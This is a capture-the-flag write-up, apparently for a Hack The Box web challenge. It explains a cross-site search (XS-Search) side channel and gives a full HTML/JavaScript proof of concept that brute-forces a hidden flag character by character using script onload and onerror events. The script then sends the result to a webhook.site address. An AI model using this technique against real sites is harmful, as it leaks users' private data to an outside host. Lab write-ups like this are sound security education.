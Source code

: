 XS-Search is a vulnerability similar to CSRF where instead of performing a specific action on behalf of the user, various side effects are observed to infer information about the user or the application. Due to the same-origin policy, we can't directly read the loaded content via CSRF but we can fingerprint if the content is loaded, how much time it took to load the content, the frame count of a loaded iframe, etc. In our case, we can load the search endpoint on a script tag and verify if a match is returned on the search or not based on the `onload`, and `onerror` event handling:

![](images/README/Xs-Search-Oracle.jpg)

We can repeat the above query to brute-force each character to leak the flag via client-side JavaScript when the chrome bot visits our submitted URL from the application homepage. Since the request will be made from `127.0.0.1` via the client-side, the unapproved flag entry will be visible to the Chrome bot. Here is the HTML POC script with JavaScript for brute-force:

```html
<html>
<head></head>
<body>
<script type="text/javascript">
flag_charset = "}0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!$()*,-[]_}";
var flag = "HTB{";
var charIndex = 0;

const bruteForce = () => {
	var script = document.createElement("script");
	script.src = `//127.0.0.1:1337/api/entries/search?q=${flag}${flag_charset.charAt(charIndex)}`;
	document.body.appendChild(script);
	script.onload = () => {
		flag += flag_charset.charAt(charIndex);
		charIndex = 0;
		script.parentNode.removeChild(script);
		if (flag.slice(-1) != '}') {
			bruteForce();
		}
		else {
			img = new Image();
			img.src = '//webhook.site/WEBHOOK_TOKEN?flag='+flag;
		}
	}
	script.onerror = () => {
		script.parentNode.removeChild(script);
		charIndex += 1;
		bruteForce();
	}
}
bruteForce();
</script>
</body>
```